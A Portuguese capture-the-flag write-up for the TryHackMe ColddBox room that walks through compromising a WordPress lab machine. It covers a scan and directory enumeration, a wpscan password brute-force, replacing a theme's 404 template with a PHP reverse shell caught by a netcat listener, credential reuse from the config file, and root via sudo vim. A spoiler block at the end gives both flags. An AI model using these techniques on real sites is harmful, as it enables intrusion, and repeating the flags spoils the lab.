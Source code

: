 # Relatório da sala [C0lddBOX](https://tryhackme.com/r/room/colddboxeasy)

## IP alvo: 10.10.109.242
```
# Nmap 7.93 scan initiated Tue Aug 20 20:51:43 2024 as: nmap -T4 -sV -sC -o nmap_colddbox.txt 10.10.109.242
Nmap scan report for 10.10.109.242
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Sabendo as portas abertas, realizei uma enumeração de diretórios utilizando a ferramenta gobuster
```
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.109.242/]
/.php                 (Status: 403) [Size: 278]
/wp-content           (Status: 301) [Size: 319] [--> http://10.10.109.242/wp-content/]
/wp-login.php         (Status: 200) [Size: 2547]
/license.txt          (Status: 200) [Size: 19930]
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.109.242/wp-includes/]
/readme.html          (Status: 200) [Size: 7173]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 317] [--> http://10.10.109.242/wp-admin/]
/hidden               (Status: 301) [Size: 315] [--> http://10.10.109.242/hidden/]
/xmlrpc.php           (Status: 200) [Size: 42]
```
Após descobrir o diretório /hidden, pode-se notar que existem 3 usuários no qual podem ter contas vinculadas no wp
```wpscan --url http://10.10.248.96 -U user.txt -P /usr/share/wordlists/rockyou.txt```Realizando um brute force no wp com esses nomes, se descobriu a senha do usuário
**[SUCCESS] - C0ldd / 9876543210**
Acessando o WP, podemos ir em "Themes" e mudar o "404 template" por um reverse shell em php, após alterar o template, iniciei um ```"nc -lvnp 5555"``` e executei o reverse shell ```http://10.10.109.242/wp-content/themes/twentyfifteen/404.php```, realizando isso, obtive acesso ao shell pela minha máquina

Comando utilizado para deixar o shell melhor visível = **python3 -c 'import pty;pty.spawn("/bin/bash")'**. Ao tentar acessar o diretório **/home/c0ldd/user.txt**, uma mensagem de acesso negado apareceu, sendo necessário procurar uma outra maneira de acessar esse documento

Buscando por maneiras, entrei no diretório **/var/www/html/wp-setting.php** no qual apresentava um usuário:**c0ldd** e senha:**cybersecurity** acessando com o comando su c0ldd e a senha: cybersecurity, feito! estamos execuando como usuário c0ldd agora

**cat /home/c0ldd/user.txt** = 1* flag descoberta

A missão agora era virar root, com isso, dei um sudo -l e vi que o diretório /usr/bin/vim estava disponível para modificar criando um ```:!/bin/bash``` ele elevou os previlégios e me deixou como root da máquina, cat /root/root.txt, VAMO! descoberta a última flag do desafio.

<details>⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
<summary>Respostas do desafio</summary>
  
1.  **flag{RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==}**
2.  **flag{wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=}**

</details>
